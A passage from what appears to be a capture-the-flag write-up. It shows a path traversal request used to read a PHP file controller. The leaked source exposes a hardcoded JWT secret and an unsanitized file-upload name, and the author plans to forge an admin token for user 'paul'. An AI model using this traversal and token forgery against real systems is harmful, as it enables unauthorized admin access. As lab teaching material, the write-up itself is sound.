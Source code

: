 There are 4 possible session cookies. But we still need the secret for the Json web token
So we check for another php file, this time the filecontroller.php

``` bash
# using burpsuite and path traversal
book=../portal/includes/fileController.php&method=1

#edit the php file in nvim -> %s/\\r/\r/g -> %s/\\\//\//g
<?php
$ret = \"\";
require \"..\/vendor\/autoload.php\";
use \\Firebase\\JWT\\JWT;
session_start();

function validate(){
    $ret = false;
    $jwt = $_COOKIE['token'];

    $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
    $ret = JWT::decode($jwt, $secret_key, array('HS256'));   
    return $ret;
}

if($_SERVER['REQUEST_METHOD'] === \"POST\"){
    $admins = array(\"paul\");
    $user = validate()->data->username;
    if(in_array($user, $admins) && $_SESSION['username'] == \"paul\"){
        error_reporting(E_ALL & ~E_NOTICE);
        $uploads_dir = '..\/uploads';
        $tmp_name = $_FILES[\"file\"][\"tmp_name\"];
        $name = $_POST['task'];

        if(move_uploaded_file($tmp_name, \"$uploads_dir\/$name\")){
            $ret = \"Success. Have a great weekend!\";
        }     
        else{
            $ret = \"Missing file or title :(\" ;
        }
    }
    else{
        $ret = \"Insufficient privileges. Contact admin or developer to upload code. Note: If you recently registered, please wait for one of our admins to approve it.\";
    }

    echo $ret;
}


```

In this php file we obtain the secret key for the json web token, and now in the jwt.io site we create the json web token of the admin user Paul
